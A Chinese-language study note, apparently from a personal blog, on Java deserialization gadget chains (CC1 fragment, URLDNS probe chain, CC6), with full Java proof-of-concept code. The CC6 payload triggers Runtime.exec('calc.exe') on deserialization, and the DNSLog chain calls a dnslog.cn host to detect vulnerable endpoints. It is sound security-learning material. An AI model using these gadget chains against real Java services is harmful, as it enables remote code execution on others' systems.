    Constructor<?> aIHClassDeclaredConstructor = aIHClass.getDeclaredConstructor(Class.class, Map.class);
    // 取消其访问检查（即绕过 protected 和 private 关键字修饰，直接对其变量赋值），
    aIHClassDeclaredConstructor.setAccessible(true);
    
    // 4. 先搞出来一个调用处理器，这里第一个参数没有要求
    InvocationHandler invocationHandler = (InvocationHandler) aIHClassDeclaredConstructor.newInstance(Override.class, lazyMap);
    
    // 5. 创建代理对象（被代理类已经创建好了，就是 lazyMap）
    System.out.println(Arrays.toString(lazyMap.getClass().getInterfaces()));
    Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
    
    // 6. 实例化并被序列化的对象（注意这里要传入代理对象，这样才能在其 readObject() 中调用代理对象的方法（即 entrySet()）
    Object toBeSerializedObj = aIHClassDeclaredConstructor.newInstance(Override.class, proxyMap);
    
    // 7. 序列化
    String serializedStr = serialize(toBeSerializedObj);
    unSerialize(serializedStr);
    ```

2. 结果如下：
    
    有个问题：反序列化的时候会报错。


## 5. 最简单的链 -- DNSLog 探测链

### 5.1 基本原理

1. 上述的入口类都是 `AnnotationInvocationHandler` 类，都是 CC 包里面的。如果是原生 JDK 中的就比较好，通用性高。

2. `HashMap<>` 就是一个复合条件的类，他重写了 `readObject()`，而且是 JDK 自带的。
    至于 `HashMap<>` 为什么重写 `readObject()`，详见：

    > https://juejin.cn/post/6844903954774491144

### 5.2 `HashMap<>.readObject()` 详解

1. 首先，`HashMap<>` 在 `readObject()` 中对**键**调用了 `hash(key)`：
    
2. 跟进 `hash()`：
    
    如果 key 不为空，那么会调用他的 `hashCode()` 方法。

### 5.3 `URL` 类中的 `hashCode()`

1. > https://www.bilibili.com/video/BV16h411z7o9/?spm_id_from=333.999.0.0&vd_source=93978f7f30465e9813a89cdacc505a92
    > 最先找 web 中是否存在 rce，没有 rce 退一步找 ssrf，然后在浏览 `URL` 类中找到了它的 `hashCode()` 方法，同时 `URL` 类实现了 `Serializable` 接口

2. 审计 `URL.hashCode()`：
    

3. 跟进 `handler.hashCode()`：
    
    在 `URLStreamHandler` 中，其 `hashCode()` 方法调用了 `getHostAddress()`。

4. `getHostAddress()`，一路跟下去，发现它会根据域名获取 IP 地址，此时必定会向指定的 URL 发送 DNS 请求。

### 5.4 整合并构造链

1. `HashMap<>` 中放 `URL`。

2. 想要反序列化时触发 `URL.hashCode()`，必须要求其属性 `hashCode` 为 -1。

3. 需要注意的一点是，调用 `HashMap.put()` 时，其会调用一次 `hashCode()`：
    
    **如果在其插入之前没有通过反射把属性 `hashCode` 重置为非 -1 的话（默认刚创建时为 -1)**，那么其会在 `put()` 插入时发起 DNS 请求。

4. 在序列化时还得将其改成 -1。否则反序列化时，由于其 `hashCode` 不是 -1，从而不会发起 DNS 请求，这和实际要求截然相反。

5. 结合上述四点，构造 payload。
    ```java
    @Test
    public void testDNSLog() throws MalformedURLException, NoSuchFieldException, IllegalAccessExcept
        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();
        // 1. 创建 URL，其访问地址为 burp 生成的用于检测 DNSLog 的，当然 dnslog 也行
        URL url = new URL("http://apcv57.dnslog.cn/");
    
        // 2. 在 put 前通过反射将键为 url 的 hashCode 改成 -1
        Class<? extends URL> urlClass = url.getClass();
        // 获取对象内的属性
        Field hashCode = urlClass.getDeclaredField("hashCode");
        // 忽略其安全限制（无效化 private、protected 关键字）
        hashCode.setAccessible(true);
        // put 前改为非 -1，为了防止下面 put 时发出一次 DNS 请求从而干扰结果
        hashCode.setInt(url, 1);
    
        // 3. 塞进去
        hashMap.put(url, 10);
        // 4. 序列化前改回 -1
        hashCode.setInt(url, -1);
        // 5. 序列化
        String serialize = serialize(hashMap);
        unSerialize(serialize);
    }
    ```

6. 结果如下：
    

### 5.5 作用

1. 这个链的作用就是用来探测注入点是否存在反序列化漏洞。

## 6. 最好用的链 - CC6 - 不受 JDK 版本限制的类

### 6.1 漏洞原理

1. 在 [5.2](# 5.2 `HashMap<>.readObject()` 详解) DNSLog 链中，提到了 `HashMap#readObject()` 的利用方法。CC6 链同样也用到了，而且思路和 DNSLog 相似。其目标在于：“找到一个类，其 `hashCode()` 调用了 `LazyMap.get()`，这样就能和 CC1 的后半部分相同”。（可以理解成 DNSLog 和 CC1 的结合）
2. 使用到的类是 CC 中的 `TiedMapEntry` 这个类：
    
    它的 `getValue()` 为：
    
3. 因此，给它的 map 赋值，然后调用其 `hashCode()`，即可触发。

### 6.2 POC 编写

1. 具体细节见：

    > https://www.freebuf.com/articles/web/320466.html

    注意其中有些注意点。

2. Payload：
    ```java
    @Test
    public void testCC6() throws NoSuchFieldException, IllegalAccessException {
        // 1. 构造链
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer<>(Runtime.class),
            new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    
        // 2. 构造 LazyMap，先不传链的后半部分，让链断开，这样 put 时不会触发链
        HashMap<Object, Object> hashMap = new HashMap<>();
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(hashMap, new ChainedTransformer());
    
        // 3. 创建一个 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("aaa")，由于 LazyMap 中没有键为 aaa，所以会向里面塞一个 aaa，从而导致反序列化时无法执行
        TiedMapEntry lazyMapIntegerTiedMapEntry = new TiedMapEntry<>(lazyMap, "aaa");
    
        // 4. 创建一个用于被序列化的 HashMap
        HashMap toBeSerializedHashMap = new HashMap<>();
    
        // 5. 塞入
        toBeSerializedHashMap.put(lazyMapIntegerTiedMapEntry, 1);
    
        // 6. 把 lazyMap 中塞入的 key 给去掉
        lazyMap.remove("aaa");
    
        // 7. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
    
        String serialize = serialize(toBeSerializedHashMap);
        unSerialize(serialize);
    }
    ```

3. todo 其实还有疑问，这个 `LazyMap` 和 `TiedMapEntry` 的工作原理，如果写：
    `TiedMapEntry lazyMapIntegerTiedMapEntry = new TiedMapEntry<>(lazyMap, hashMap)`，会报栈溢出错误。`TiedMapEntry` 要求第二个参数和第一个参数中的 `key` 的类型相同。payload 中用的 `Object` 类型，所以可以传入字符串。

## 7. 其他的 CC 链 todo
